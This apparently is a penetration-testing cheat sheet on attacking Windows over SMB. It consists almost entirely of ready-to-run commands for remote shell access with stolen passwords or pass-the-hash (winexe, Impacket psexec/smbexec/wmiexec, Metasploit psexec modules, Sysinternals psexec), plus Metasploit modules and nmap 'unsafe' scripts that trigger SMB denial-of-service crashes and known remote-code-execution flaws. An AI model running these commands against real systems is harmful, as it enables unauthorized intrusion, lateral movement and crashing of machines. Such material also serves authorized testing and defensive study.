 ### Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password information (in systems where local administrator authority can be obtained).

```bash
winexe -U secybr.local\\Username%Password //10.10.x.x "cmd.exe" –system
pth-winexe -U secybr.local/0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x cmd.exe –system

#Metasploit Framework
msf > use exploit/windows/smb/psexec
msf > use exploit/windows/smb/psexec_psh
msf > use exploit/windows/smb/smb_delivery

#Impackets
python psexec.py secybr.local/0xhav0c:Password123!@10.10.x.x
python smbexec.py secybr.local/0xhav0c:Password123!@10.10.x.x
python wmiexec.py secybr.local/0xhav0c:Password123!@10.10.x.x

#Windows Sysinternals: 
psexec.exe \\10.10.x.x -u secybr.local\0xhav0c -p Password cmd.exe /accepteula
```

### Access to the Windows command line (Meterpreter, CMD, Powershell, …) can be achieved by using the username and password summary information (in systems where local administrator authority can be obtained).

```bash
pth-winexe -U secybr.local\\0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x "cmd.exe" –system

#Metasploit Framework
msf > use exploit/windows/smb/psexec
msf > use exploit/windows/smb/psexec_psh

#Impackets
python psexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3
python smbexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3
python wmiexec.py secybr.local/0xhav0c@10.10.x.x -hashes 00000000000000000000000000000000:4a09d6777d034c2a5fced85d044a98e3
```

## Common SMB Vulnerabilities

### DOS vulnerabilities using this service can be detected.

```bash
#MS09-050: Microsoft Windows SMB2 _Smb2ValidateProviderCallback() Vulnerability (975497) (uncredentialed check) [CVE-2009-2526]
nmap -sV -p445 --script=smb-vuln-cve2009-3103 10.10.x.x
nmap -sV -p445 --script=smb-vuln-cve2009-3103 --script-args unsafe=1 10.10.x.x
msf > use auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh 10.10.x.x
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 10.10.x.x

#MS10-006: Vulnerabilities in SMB Client Could Allow Remote Code Execution (978251)
msf > use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop

#MS10-054: Vulnerabilities in SMB Server Could Allow Remote Code Execution (982214) [CVE-2010-2551] [CVE-2010-2552] (Remote Memory Corruption. Result is BSOD -> DANGEROUS)
nmap -sV -p445 --script=smb-vuln-ms10-054 --script-args unsafe=1 10.10.x.x

#Service regsvc vulnerability [CVE-2010-2550]
```
